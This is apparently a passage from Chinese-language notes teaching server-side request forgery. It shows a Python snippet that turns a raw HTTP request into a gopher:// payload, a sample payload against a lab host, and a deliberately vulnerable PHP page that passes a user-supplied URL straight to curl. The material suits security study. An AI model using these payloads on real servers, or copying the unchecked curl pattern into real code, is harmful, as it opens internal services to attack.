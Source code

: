 ```python

second = first.replace('%0A','%0D%0A')# \n → \r\n

third = urllib.parse.quote(second)

payload = 'gopher://{}/_'.format(host)+third+"%0D%0A" #gopher协议会吃掉url后面的第一个字符

print(payload)
```

  例子

  - 通过命令发起

```php
//1.php kali
<?php echo "Hello".$_POST['a'];
```

```php
  gopher://192.168.244.128:80/_POST%20/1.php%20HTTP/1.1%0D%0AHost%3A%20192.168.244.128%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%206%0D%0A%0D%0Aa%3Dkhaz%0D%0A
```

  ![image-20220805001153033](../../../images/image-20220805001153033.png)

  - 通过curl函数发起--两次url编码

    ```php
    //ssrf.php  windows
    <?php 
    function curl($url){  
        //创建一个新的curl资源  
        $ch = curl_init();  
        //设置URL和相应的选项  
        curl_setopt($ch,CURLOPT_URL,$url);  
        curl_setopt($ch,CURLOPT_HEADER,false);  
        //抓取URL并把它传递给浏览器  
        curl_exec($ch);  
        //关闭curl资源，并且释放系统资源  
        curl_close($ch);
    }
    $url = $_GET['url'];
    curl($url);
    ?>
    ```
